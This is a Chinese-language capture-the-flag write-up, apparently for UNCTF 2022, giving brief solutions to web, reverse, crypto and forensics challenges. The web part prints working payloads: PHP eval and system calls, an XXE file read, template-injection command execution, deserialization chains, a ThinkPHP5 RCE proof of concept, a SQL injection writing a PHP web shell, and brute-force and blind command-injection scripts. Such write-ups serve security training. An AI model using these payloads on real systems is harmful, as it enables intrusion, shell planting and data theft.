


# ezgame
改数值<br /><br />将卡片修改为999，刷新一下<br /><br />一击秒杀boss获取flag<br />
# 我太喜欢bilibili大学
Crtl + f 搜索 environment<br />发现环境变量中藏有flag<br />
# 签到
写脚本爆破flag
```python
import requests

session = requests.Session()
for i in range(20200102, 20200140):
    paramsPost = {"password":"20200102","submit":"\x63d0\x4ea4","username":f"{i}"}
    headers = {"Origin":"http://ef5ac54f-851b-4e41-8056-25123b16073f.node.yuzhian.com.cn","Cache-Control":"max-age=0","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36","Referer":"http://ef5ac54f-851b-4e41-8056-25123b16073f.node.yuzhian.com.cn/","Connection":"close","Accept-Encoding":"gzip, deflate","Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8","Content-Type":"application/x-www-form-urlencoded"}
    response = session.post("http://ef5ac54f-851b-4e41-8056-25123b16073f.node.yuzhian.com.cn/index.php", data=paramsPost, headers=headers)

    print(response.text[504], end="")
```

# babyphp
payload
```php
GET ?code=eval($_POST[Ki1ro]);
POST a=Ki1ro&key1[]=1&key2[]=2&Ki1ro=system("cat /flag.txt");
```
成功获取flag<br />
# easy_upload
bp抓包，将mime类型该为image/png便可以任意传马了<br /><br />发现在/home/ctf/flag
```python
find / -name flag
```
<br />cat获取flag<br />
# 我太喜欢bilibili大学啦修复版
还是搜environment看见hint_1<br /><br />base64解码一下，解出是一个php网页<br /><br />访问该网页，查看源码<br />告诉我们抓一下 包<br /><br />抓包在返回包中看到hint2<br /><br />base64解码后为账号和密码<br /><br />使用账号密码登录<br /><br />抓包传入cookie，又获取一个base64<br /><br />解码为bilibili用户网址<br /><br />访问获取flag<br />
# 302与深大
在点击靶机链接时，我们便开启抓包<br />抓到相应的302包<br /><br />跟着包提示GET POST传递相应的参数<br />传完后，又进行Cookie伪造<br /><br />Cookie: admin=true<br /><br />搜索获取flag<br />
# 给你一刀
搜索一下相关的漏洞，可以发现ThinkPHP5 存在远程代码执行漏洞<br /><br />安装网上的poc进行解题
```python
?s=index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=system
&vars[1][]=ls /tmp
```
执行env命令，在环境变量中找到flag<br />
# 听说php有一个xxe
尝试访问/hint<br /><br />下载下来一个文件，告诉我们漏洞在dom.php<br /><br />访问页面是这样的，可以看见loadXML()<br /><br />loadXML()是javascript一个方法，可以解析XML标签字符串<br />直接传入构造的恶意XML来读取文件
```xml
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">
]>
<creds>
  <Ki1ro>&xxe;</Ki1ro>
</creds>
```

# easy ssti
进去是登录框，可能post传递的参数可以模板注入<br /><br />抓包尝试一下<br />我们user={{2*2}},可以发现服务端直接执行渲染到了页面上，所以用户名输出的4<br /><br />然后我们就可以利用python中的一些类方法来达到命令执行或者读文件了
```python
{{lipsum.__globals__['os'].popen('ls').read()}}
```
在环境变量中找到flag<br />
# ezunseri
POP链
```php
<?php
class Exec
{
    public $content;
}


class Test
{
    public $test;
} 

class Login
{
    public $key;
}

$cmd = 'cat /flag';
$a = new Exec();
$b = new Test();
$c = new Login();
$d = new Exec();
$c->key = $a;
$a->content = $b;
$b->test = $d;
$d->content = $cmd;
$pop = serialize($c);
$pop = urlencode(preg_replace("/\"Exec\":1/","\"Exec\":2",$pop,1));
echo $pop;

```
成功执行，获取flag<br />
# poppop
POP链
```php
<?php
class A{
    public $code;
}

class B{
    public $key;

}
class C{
    private $key2;
    function __construct($key)
    {
        $this->key2 = $key
        $this->key2->code="phpinfo();";
    }
}


$a=new A();
$b=new B();
$c=new C($a);
$b->key=$c;
$pop=serialize($b);
echo urlencode(str_replace("\"A\":1","\"A\":2",$pop));
```
payload
```php

O%3A1%3A%22B%22%3A1%3A%7Bs%3A3%3A%22key%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A7%3A%22%00C%00key2%22%3BO%3A1%3A%22A%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D%7D
```
phpinfo搜索environment获取flag<br />
# babynode
我们先把网页源码整理一下
```php
app.post('/', function(req, res) {
  var flag='flag';
  var admin = {};
  let user = {};
  try{
    copy(user,req.body);
  } catch (error){
    res.send("copy error");
    return;
  }if(admin.id==='unctf'){
    res.end(flag);
  }else{
    return res.end("error");
  }
})
```
通过req.body即我们post发送的请求体，修改user对象的__proto__。从而污染admin的__proto__<br />payload如下
```php
{"__proto__":{"id":"unctf"}}
```
成功获取flag<br />
# 随便注
fuzz测试以后会发现对一些字符进行了过滤，可以通过双写绕过
> **双写绕过是指：某些过滤是将指定字符串替换为空，但因为只会替换一次，所以可以通过双谢来绕过**
> **例如：'select'双写后为'selselectect', 服务端将select置换为空后，selselectect又变为了select达到绕过过滤的目的**

并且通过联合查询发现在数据库中没有flag<br />打算sql注入写入shell<br />payload如下
```php
?id=2'union+seleselectct+1,'<?php+eval($_POST[1])?>'+into+outfile+'/var/www/html/1.php'--+
```
抓包写入shell<br /><br />访问1.php，进行命令执行获取flag<br />
# easy_rce

从网页源码我们可以看到，代码会判断命令执行情况，并返回success或者fail<br />我们可以通过这个加上grep查看/flag文件中有没有指定的字符串，从而来获取flag
```php
if(!$return_val)   echo "success";
else{
    echo "fail"; 
}
```
grep的语法如下<br />表示查找字符串str是否在flag文件中，存在返回true，不存在返回false
```php
grep -rl str /flag
```
因为grep和flag都被过滤了，所以我们可以使用通配符 ? 来绕过正则匹配<br />?代表一个占位符，表示一个任意字符
```php
grep -> /bin/gre?
/flag -> /f?ag
```
从而payload如下
```php
/bin/gre? -rl str /f?ag
```
写脚本进行爆破盲注
```php
import requests
import time
url = 'http://bd6e7cdf-6592-4ebe-8b4d-66fc1110a302.node.yuzhian.com.cn'
str = ''
string = "{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-"
for i in range(42):
    # print(i)
    for j in string:
        time.sleep(0.1)
        str += j
        payload = {
            'code': f"/bin/gre? -rl {str} /f?ag",
        }
        r = requests.get(url=url, params=payload).text
        if(r'success' in r):
            print(str)
            break
        else:
            str = str[:-1]
```
成功爆破出flag<br />
# ez2048
可以发现它检验邀请码的函数如下
```php
checkInvited() {
    let args = [...arguments];
    let buf = new ArrayBuffer(24);
    const view = new DataView(buf);
    view.setUint8(0, 68);
    view.setUint8(1, 51);
    view.setUint8(2, 15);
    view.setUint8(3, 80);
    view.setUint16(4, 0x0e5d, true);
    view.setUint16(6, 0x323a, true);
    view.setUint16(8, 0x3058, true);
    view.setUint16(10, 0x1a2a, true);
    view.setUint32(12, 0x0512160d, true);
    view.setUint32(16, 0x02560002);
    view.setUint32(20, 0x130000);
    function check(code) {
      if (code.length !== 24) return false;
      let encode = [];
      for (let i = 0; i < code.length; i++) {
        if (~i % 2 === 0) {
          encode.push(code.charCodeAt(i) ^ code.charCodeAt(i - 2));
        } else {
          encode.push(code.charCodeAt(i) ^ code.charCodeAt(i + 1));
        }
      }
      for (let i = 0; i < code.length; i++) {
        if (view.getInt8(i) !== encode[i]) return false;
      }
      return true;
    }
```
输入的邀请码需要为24位，且对邀请码进行异或编码后，在与view.getInt8中的数进行比较<br />在在线js中跑一下可以看出view.getInt8中数位定值。我们只要逆推便可以获取邀请码。<br />此时我们需要知道一个数与另一个数异或两次会变回原来的数。<br />从而我们可以开始写我们的解密脚本<br />脚本如下
```php
arr=[68,51,15,80,93,14,58,50,88,48,42,26,13,22,18,5,2,86,0,2,0,19,0,0]
flag=[119,51]
for i in range(22):
    flag.append(0)
for i in range(0,11):
    flag[3+i*2]=flag[1+i*2]^arr[3+2*i]
    flag[2+i*2]=flag[3+2*i]^arr[2*i+2]
for i in flag:
    print(chr(i),end='')
```
成功获取邀请码<br /><br />再像ezgame一样修改游戏数值，便可以获取flag。我这里将随机生成方块数值的函数，改为1024<br /><br />重新刷新，可以看到块值变为了1024<br /><br />输入密钥，一碰获取flag<br />
# 世界和平
这道题比较坑，它有两种过滤方式<br />第一种是对小写的select和一些字符串进行了过滤，匹配到会返回另外一句歌词<br /><br />第二种当为大写或者大小写混用时，会将关键字符串替换为空<br /><br />通过大写以及双写来绕过过滤<br />最终payload如下
```php
1;SELSELECTECT FlFlagag FRFROMOM FlFlagag;
```
成功获取flag<br />
# Sqlsql
q5没有过滤。直接POST传参堆叠修改admin的值<br /><br />查询admin成绩获取flag<br />
# welcomeUNCTF2022
将文件放到ida里看一下<br /><br />nc 输入UNCTF&2022获取flag<br />
# whereisyourkey
把源码拉出来稍微改一下获取flag<br />
# ezzzzre
放进die发现是upx打包<br />使用upx进行脱壳，再放进ida中<br />把源码脱出来跑一下获取flag<br />
# 今天喝茶，明天上班
原题<br />[http://124.221.237.200/index.php/2022/06/04/dest0g3-tttea/](http://124.221.237.200/index.php/2022/06/04/dest0g3-tttea/)
# md5-1
使用MD5批量解密工具将md5解密即可获得flag
# dddd
莫斯密码<br />把1换成. 吧0换成-<br />获取flag
# caesar
将caesar的表换成base64的表
```php
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
```
再移项获取flag
# Single table
playfair密码<br />key是什么就将这四个字符放到表的末尾<br />然后按照矩形的规则对字符进行解密<br />获取flag
# babyRSA
基本上原题<br />[https://www.bilibili.com/read/cv13467999/](https://www.bilibili.com/read/cv13467999/)<br />用脚本跑一下啊，将相应的3换成6
```php
import libnum
def phase2(high_m, n, c):
    R.<x> = PolynomialRing(Zmod(n), implementation='NTL')
    m = high_m + x
    M = m((m^6 - c).small_roots()[0])
    print(libnum.n2s(int(M)))

n= 
e= 6
c= 
high_m= 

phase2(high_m, n, c) 
```
# ezRSA
基本原题<br />[https://www.bilibili.com/read/cv13407030?spm_id_from=333.999.0.0](https://www.bilibili.com/read/cv13407030?spm_id_from=333.999.0.0)<br />用上面的解密步骤做就可以
```php
import libnum 
import gmpy2 
n=  
e= 65537 
c=  
#分解n #yafu-x64.exe factor() 
p= 
phi_n=p**4-p**3 
#求逆元 
d=libnum.invmod(e,phi_n) 
m=pow(c,d,n) print(m) 
#数字转字节，转字符串 
print(libnum.n2s(int(m)).decode()) 
```
# easy_RSA
已知p的高位攻击，也基本原题<br />[https://www.bilibili.com/read/cv13467579?spm_id_from=333.999.0.0](https://www.bilibili.com/read/cv13467579?spm_id_from=333.999.0.0)<br />解密脚本
```php
n = 
p4=
e = 0x10001
pbits = 512
kbits = pbits - p4.nbits()
print(p4.nbits())
p4 = p4 << kbits
PR.<x> = PolynomialRing(Zmod(n))
f = x + p4
roots = f.small_roots(X=2^kbits, beta=0.4)
if roots:
    p = p4+int(roots[0])
    print ("n: ", n)
    print ("p: ", p)
    print ("q: ", n/p) 
```
# magic_word
零宽隐写解密获取flag<br />
# 社什么社
看图片，找湖南景点<br />试出是凤凰古城
# 找得到我吗
将获取的word解压<br />看文件获取flag<br />
# syslog
banzip解压绕过解压密码<br />看syslog找解压密码，然后base64解码，解压获取flag<br /><br />
# In_the_Morse_Garden
把前面的图片删掉获取flag<br /><br />base64解码<br /><br />将依古比古和玛卡巴卡替换成.和-进行莫斯密码解密获取flag
# zhiyin
图片最后莫斯密码<br /><br />解密获取部分密码<br /><br />lanqiu图片倒置
```php
with open('lanqiu.png', 'rb') as f:
    with open('lanqiu2.png', 'wb') as g:
        g.write(f.read()[::-1])
```
<br />拼起来解压<br />获取flag<br />
# 清和fan
压缩包最好告诉密码<br /><br />解压后对图片进行lsb操作，获取flag<br /><br />神秘电波用sstv加密，用相应工具解密<br />[https://github.com/colaclanth/sstv](https://github.com/colaclanth/sstv)<br />获取flag.txt<br /><br />零宽隐写解密，获取flag<br />
# 芝麻开门
带有密钥的lsb加密，密钥给了为zhimakaimen<br />用相应工具解密<br />[https://github.com/livz/cloacked-pixel](https://github.com/livz/cloacked-pixel)<br />获取flag<br />flag{faf5bdd5-ba3d-11da-ad31-d33d75182f1b}

